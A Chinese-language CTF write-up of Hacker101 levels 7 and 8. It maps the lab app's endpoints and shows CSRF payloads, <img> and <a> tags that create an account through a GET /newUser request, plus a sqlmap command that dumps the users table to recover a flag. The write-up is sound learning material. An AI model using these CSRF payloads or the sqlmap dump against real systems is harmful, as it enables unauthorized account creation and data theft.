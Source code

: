 ```yaml
---
title: "hacker101 第7关&&第8关"
date: 2019-11-20T10:50:17+08:00
showDate: true
draft: false
tags: ["security","hacker101", "ctf"]
categories: ["security"]
---
```


### 第7关 && 第8关

第八和第九好像合起来才是一关，第7关是一个demo，没有flag，第8关才有。

（这两关真的卡了我好久，最后还是看了下别人的经验做出来的

先稍微测了一下第7关demo里面的内容

```js

POST    /login              //登录
POST    /newTicket          //添加ticket（存在xss， csrf）
GET     /ticket?id=         //查看ticket信息（存在sql注入）
GET     /newUser?username=password=password2=       //添加user（居然是GET方法，那肯定有古怪）

```

#### flag1

在第8关里，在没有登录的情况下只能访问`POST /newTicket`，就卡在了这里。尝试了payload


```html

<a href="http://34.74.105.127/b414803f39/newUser?username=admin2&password=admin&password2=admin"></a>

```

![8-1](8-1.png)

没有效果，然后又尝试了

```html

<img src="http://34.74.105.127/b414803f39/newUser?username=admin2&password=admin&password2=admin">

```

还是没用，最后看了下别人的payload

![8-2](8-2.png)

```html

<img src="http://localhost/newUser?username=test&password=test&password2=test">

```

看完还是很疑惑，为什么用localhost能触发？在我没有查到正确解释之前我可能要把他当成作者故意这样设置来理解了。

触发这个csrf之后用新创建的账号登录。

![8-3](8-3.png)


登录后flag就在第一个ticket里面（为啥还有个无效flag？肯定又阴谋~）

![8-4](8-4.png)

#### flag2

现在用完了这个csrf，还剩下一个注入点，那就试试爆库吧。

因为之前测那个demo的时候已经爆过库了，所以数据库和表都是知道的。

直接sqlmap一把梭

```bash

sqlmap -u "http://host/10string/ticket?id=1" --cookie=Cookie -D level7 -T users --dump
```

密码就是flag。

![8-5](8-5.png)
